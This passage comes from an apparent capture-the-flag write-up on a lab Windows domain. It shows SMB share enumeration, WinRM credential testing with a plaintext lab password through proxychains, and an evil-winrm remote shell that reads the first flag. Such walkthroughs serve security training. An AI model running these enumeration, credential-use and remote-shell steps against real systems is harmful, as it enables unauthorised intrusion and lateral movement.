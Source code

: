 ```
SMB         10.2.10.11      445    SOUTHERN-TOWER   Castle_Guards_Schedule                 Guard schedule for castle servants
SMB         10.2.10.11      445    SOUTHERN-TOWER   IPC$            READ            Remote IPC
SMB         10.2.30.51      445    KING-DC          [*] Enumerated shares
SMB         10.2.30.51      445    KING-DC          Share           Permissions     Remark
SMB         10.2.30.51      445    KING-DC          -----           -----------     ------
SMB         10.2.30.51      445    KING-DC          ADMIN$                          Remote Admin
SMB         10.2.30.51      445    KING-DC          C$                              Default share
SMB         10.2.30.51      445    KING-DC          IPC$            READ            Remote IPC
SMB         10.2.30.51      445    KING-DC          NETLOGON        READ            Logon server share 
SMB         10.2.30.51      445    KING-DC          SYSVOL          READ            Logon server share 
Running nxc against 5 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
```

Upon enumerating other remote protocols, we find that `Castle_Guard_29` has WinRM access to `SOUTHERN-TOWER`.

```
proxychains -q nxc winrm targets.txt -u 'Castle_Guard_29' -p 'oZ5pLcXj1R'       
WINRM       10.2.30.51      5985   KING-DC          [*] Windows Server 2022 Build 20348 (name:KING-DC) (domain:async.empire) 
WINRM       10.2.10.11      5985   SOUTHERN-TOWER   [*] Windows Server 2022 Build 20348 (name:SOUTHERN-TOWER) (domain:async.empire) 
WINRM       10.2.30.51      5985   KING-DC          [-] async.empire\Castle_Guard_29:oZ5pLcXj1R
WINRM       10.2.10.11      5985   SOUTHERN-TOWER   [+] async.empire\Castle_Guard_29:oZ5pLcXj1R (Pwn3d!)
Running nxc against 5 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
```

We can connect using `evil-winrm`, and also get the first flag!

```
proxychains -q evil-winrm -i Southern-Tower.async.empire -u 'Castle_Guard_29' -p 'oZ5pLcXj1R' 
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Castle_Guard_29\Documents> hostname
Southern-Tower
*Evil-WinRM* PS C:\Users\Castle_Guard_29\Documents> whoami
async\castle_guard_29
*Evil-WinRM* PS C:\Users\Castle_Guard_29\Documents> cat C:\Users\FLAG1\FLAG1.txt
3716d60f85ad825b0bf1b3877d7ff42e
```
## Flag 2
